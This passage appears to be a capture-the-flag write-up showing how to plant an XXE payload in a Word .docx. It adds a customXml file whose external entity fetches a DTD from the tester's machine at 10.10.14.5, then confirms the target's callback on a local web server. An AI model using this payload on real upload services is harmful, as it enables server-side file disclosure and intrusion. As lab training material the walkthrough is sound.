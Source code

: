 ```bash
root@silence:~/extracted# unzip ../sample.docx
Archive:  ../sample.docx
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
  inflating: word/theme/theme1.xml
  inflating: word/settings.xml
  inflating: word/styles.xml
  inflating: word/webSettings.xml
  inflating: word/fontTable.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml
root@silence:~/extracted# mkdir customXml
```
We extract the docx document and add a customXml folder.

```bash
root@silence:~/extracted/customXml# cat item1.xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY % ext SYSTEM "http://10.10.14.5/ext.dtd">
  %ext;
]>
<xxe></xxe>
```
We can now create a malicious xml file, which if the target is vulnerable, should connect to our machine, requesting the ext.dtd file.

```bash
root@silence:~/extracted# zip -r ../xxe-test.docx *
  adding: [Content_Types].xml (deflated 74%)
  adding: customXml/ (stored 0%)
  adding: customXml/item1.xml (deflated 8%)
  adding: docProps/ (stored 0%)
  adding: docProps/core.xml (deflated 52%)
  adding: docProps/app.xml (deflated 50%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: word/ (stored 0%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 71%)
  adding: word/styles.xml (deflated 90%)
  adding: word/webSettings.xml (deflated 56%)
  adding: word/settings.xml (deflated 64%)
  adding: word/fontTable.xml (deflated 69%)
  adding: word/document.xml (deflated 73%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 80%)
```
We now put the whole file back together and upload it.

```bash
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.173 - - [13/May/2020 19:40:54] code 404, message File not found
10.10.10.173 - - [13/May/2020 19:40:54] "GET /ext.dtd HTTP/1.0" 404 -
```
After uploading we get a response back from the server. With this we have successfully verified XXE and can start exploiting.

